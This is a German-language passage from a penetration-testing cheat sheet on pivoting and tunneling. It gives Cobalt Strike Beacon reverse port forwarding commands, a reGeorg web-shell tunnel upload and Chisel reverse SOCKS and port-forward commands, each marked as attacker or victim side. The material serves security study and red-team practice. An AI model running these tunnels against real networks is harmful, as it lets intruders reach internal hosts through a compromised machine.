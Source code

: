 * Beacons Reverse-Port-Forwarding ist dafür ausgelegt, **Verkehr zum Team-Server zu tunneln, nicht um zwischen einzelnen Maschinen weiterzuleiten**.
* Der Verkehr wird **innerhalb des C2-Verkehrs von Beacon getunnelt**, einschließlich P2P-Links.
* **Admin-Rechte sind nicht erforderlich**, um Reverse-Port-Forwarding auf hohen Ports zu erstellen.

### rPort2Port lokal

{% hint style="warning" %}
In diesem Fall wird der **Port im Beacon-Host geöffnet**, nicht im Team-Server, und der **Verkehr wird an den Cobalt Strike-Client gesendet** (nicht an den Team-Server) und von dort an den angegebenen Host:Port
{% endhint %}
```
rportfwd_local [bind port] [forward host] [forward port]
rportfwd_local stop [bind port]
```
## reGeorg

[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

Sie müssen eine Webdatei-Tunnel hochladen: ashx|aspx|js|jsp|php|php|jsp
```bash
python reGeorgSocksProxy.py -p 8080 -u http://upload.sensepost.net:8080/tunnel/tunnel.jsp
```
## Chisel

Sie können es von der Release-Seite von [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel) herunterladen.\
Sie müssen die **gleiche Version für Client und Server verwenden**.

### socks
```bash
./chisel server -p 8080 --reverse #Server -- Attacker
./chisel-x64.exe client 10.10.14.3:8080 R:socks #Client -- Victim
#And now you can use proxychains with port 1080 (default)

./chisel server -v -p 8080 --socks5 #Server -- Victim (needs to have port 8080 exposed)
./chisel client -v 10.10.10.10:8080 socks #Attacker
```
### Portweiterleitung
```bash
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse #Server -- Attacker
./chisel_1.7.6_linux_amd64 client 10.10.14.20:12312 R:4505:127.0.0.1:4505 #Client -- Victim
```
## Ligolo-ng

[https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

**Verwenden Sie dieselbe Version für Agent und Proxy**
